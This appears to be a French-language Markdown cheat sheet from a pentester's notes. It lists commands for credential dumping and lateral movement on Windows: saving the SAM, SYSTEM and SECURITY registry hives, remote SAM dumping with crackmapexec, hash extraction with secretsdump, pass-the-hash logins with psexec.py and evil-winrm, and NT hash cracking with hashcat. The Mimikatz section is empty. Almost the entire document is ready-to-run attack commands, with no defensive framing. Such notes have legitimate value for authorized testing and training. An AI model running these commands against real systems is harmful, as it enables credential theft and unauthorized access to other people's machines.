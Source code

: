 ```yaml
---
public: true # set to true to make the article publishable
---
```


## Localement
### Récupération de la SAM
```
reg save hklm\sam sam.save
reg save hklm\system system.save
reg save hklm\security security.save
```

### Mimikatz

```

```
## A distance 

```
crackmapexec smb $TARGET_IP --local-auth -u $LOCAL_USER -p $LOCAL_PASS --sam
```

## Extraction des Hashs

### SAM
```
secretdump.py local -sam sam.save -security security.save -system system.save LOCAL
```


## Utilisation des Hash LM:NT
### Accès distant
``` shell 
psexec.py Administrator@$TARGET_IP -hashes xxxxxxxxxxxxxxxxx:xxxxxxxxxxxxxxxxxxxxxxx
# ou
psexec.py Administrator@$TARGET_IP -hashes :xxxxxxxxxxxxxxxxxxxxxxx
# on peut également utiliser wmiexec.py et smbexec.py ou encore evil-winrm
evil-winrm -i $TARGET_IP -u Administrator -H "64f12cddaa88057e06a81b54e73b949b"
```

### Cassage des hashs avec hashcat

```
cat hash.txt
64f12cddaa88057e06a81b54e73b949b
31d6cfe0d16ae931b73c59d7e0c089c0
...

sudo hashcat -m 1000 hash.txt /usr/share/wordlists/rockyou.txt
```

